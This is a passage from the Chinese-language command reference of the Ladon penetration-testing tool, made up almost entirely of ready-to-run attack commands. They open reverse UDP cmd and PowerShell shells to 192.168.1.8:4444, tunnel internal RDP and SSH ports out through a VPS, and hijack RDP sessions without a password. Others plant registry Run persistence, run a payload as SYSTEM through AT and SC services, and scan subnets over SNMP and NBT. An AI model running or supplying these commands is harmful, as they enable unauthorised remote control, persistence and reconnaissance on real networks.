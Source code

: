 ##### 129 反弹UDP Cmd & PowerShell Shell
```Bash
Ladon PowerCat 192.168.1.8 4444 cmd udp
Ladon PowerCat 192.168.1.8 4444 psh udp
```

##### 130  netsh本机888端口转发至112的22端口
```Bash
Ladon netsh add 888 192.168.1.112 22
```

##### 131  PortTran端口转发(3389例子)
```Bash
VPS监听: Ladon PortTran 8000 338
目标转发: Ladon PortTran 内网IP 3389 VPS_IP 8000
本机连接: mstsc VPS_IP:338
```

### 本机执行
##### 132 RDP桌面会话劫持（无需密码）
```Bash
Ladon RdpHijack 3
Ladon RdpHijack 3 console
```

##### 133 添加注册表Run启动项
```Bash
Ladon RegAuto Test c:\123.exe
```

##### 134 AT计划执行程序(无需时间)(system权限)
```Bash
Ladon at c:\123.exe
Ladon at c:\123.exe gui
```

##### 135 SC服务加启动项&执行程序(system权限）
```Bash
Ladon sc c:\123.exe
Ladon sc c:\123.exe gui
Ladon sc c:\123.exe auto ServerName
```

### 系统信息探测

##### 136  Snmp协议探测操作系统、设备等信息
```Bash
Ladon 192.168.1.8/24 SnmpInfo
```

##### 137  Nbt协议探测Windows主机名、域、用户
```Bash
Ladon 192.168.1.8/24 NbtInfo
```
